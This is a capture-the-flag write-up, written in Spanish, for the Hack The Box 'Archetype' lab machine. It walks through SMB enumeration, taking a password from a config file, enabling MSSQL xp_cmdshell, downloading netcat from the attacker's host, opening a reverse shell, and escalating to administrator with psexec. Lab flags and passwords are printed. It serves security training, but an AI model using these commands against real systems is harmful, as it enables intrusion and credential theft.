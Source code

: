 ```yaml
---
title: Máquina Archetype
published: true
---
```


Jorge Marco Arráez

## [](#header-3) 1)  Which TCP port is hosting a database server?

sudo nmap -sS --min-rate 5000 -p- -n -Pn $IP
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-14 18:25 UTC
    Nmap scan report for 10.129.76.19
    Host is up (0.046s latency).
    Not shown: 65529 filtered tcp ports (no-response)
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    49664/tcp open  unknown
    49665/tcp open  unknown
    49669/tcp open  unknown

este escaneo no me ha dado un puerto de cuatro dígitos, que es lo que me pide HTB, asi que llevo otro a cabo 

```
sudo nmap -sCV --min-rate 5000 -p- -n -Pn $IP
sudo nmap -sCV --min-rate 5000 -A -vvv -Pn -n -p 1433,139,445 -oN mainports $IP
```

1433/tcp open  ms-sql-s     syn-ack ttl 128 Microsoft SQL Server 2017 14.00.1000.00; RTM

El puerto que buscamos es el 1433

## [](#header-3) 2) What is the name of the non-Administrative share available over SMB?

smbclient -L $IP
root

Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC


backups

## [](#header-3) 3)  What is the password identified in the file on the SMB share?

smbclient \\\\$IP\\backups
ls
get prod.dtsConfig
M3g4c0rp123

## [](#header-3) 4)  What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

https://github.com/SecureAuthCorp/impacket/tree/master/examples

En la carpeta examples está el código que necesitamos

mssqlclient.py

## [](#header-3) 5)  What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

xp_cmdshell

## [](#header-3) 6)  What script can be used in order to search possible paths to escalate privileges on Windows hosts?

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

winpeas

## [](#header-3) 7)  What file contains the administrator's password?

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth


tengo las siguientes herramientas:
	-> winpeas
	-> mssqlclient.py
	-> xp_cmdshell

cuando uso el programa de mssqlclient y me autentico con la contraseña que hemos conseguido antes,
entro a una base de datos que usa mssql. ahora la dificultad está en saber manejarse por una mssql.

listo las bases de datos que hay:

```
SELECT name FROM master.sys.databases 
```

master
tempdb
model
msdb

pruebo con msdb

(https://chartio.com/resources/tutorials/sql-server-list-tables-how-to-show-all-tables/)
(https://stackoverflow.com/questions/147659/get-list-of-databases-from-sql-server)

USE msdb
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
SELECT name FROM SYSOBJECTS WHERE xtype = 'U';

SELECT * FROM INFORMATION_SCHEMA.TABLES;

Las tablas que tiene la base de datos master son:

```
spt_fallback_db
spt_fallback_dev
spt_fallback_usg
spt_values
spt_monitor
MS_replication_options 
```

Tras estar un rato mirando las bases de datos llego a la conclusion de que no hay nada interesante en ellas.

Leyendo hacktricks he visto que se puede habilitar el xp_cmdshell, así que:

```
sp_configure 'show advanced options', '1'
RECONFIGURE

sp_configure 'xp_cmdshell', '1'
RECONFIGURE

EXEC master..xp_cmdshell 'whoami'
-> archetype\sql_svc
```

A partir de ahora tengo que mirar el walkthrough.

El objetivo es establecer una reverse shell. Descargaremos nc64.exe y en esa carpeta, ejecutaremos el siguiente comando: 

```
sudo python3 -m http.server 80
```
Así abrimos el puerto 80 para poder conectarnos a nuestro ordenador desde la consola de la maquina que esta hosteando la base de datos.

Usaremos netcat para escuchar por el puerto 443:

```
sudo nc -lvnp 443
```

Mi direccion IP es esta: 10.10.14.110.

Así que si desde la ventana de sql hacemos:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.110/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.110 443"
```

## [](#header-3) 8)  Submit user flag

```
cd C:\Users\sql_svc\Desktop
dir
type user.txt
```

```
user=3e7b102e78218e935bf3f4951fec21a3
```

```
powershell
wget http://10.10.14.110/winPEASx64.exe -outfile winPEASx64.exe
./winPEASx64.exe
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\
text ConsoleHost_history.txt
```
Con esto obtenemos la contraseña de administrator que es: "MEGACORP_4dm1n!!"


## [](#header-3) 9) Submit root flag

Ahora, con psexec.py y la contraseña que hemos hallado antes:

```
python3 psexec.py administrator@$IP
cd C:\Users\Administrator\Desktop
dir
type root.txt
```

```
root=b91ccec3305e98240082d4474b848528
```
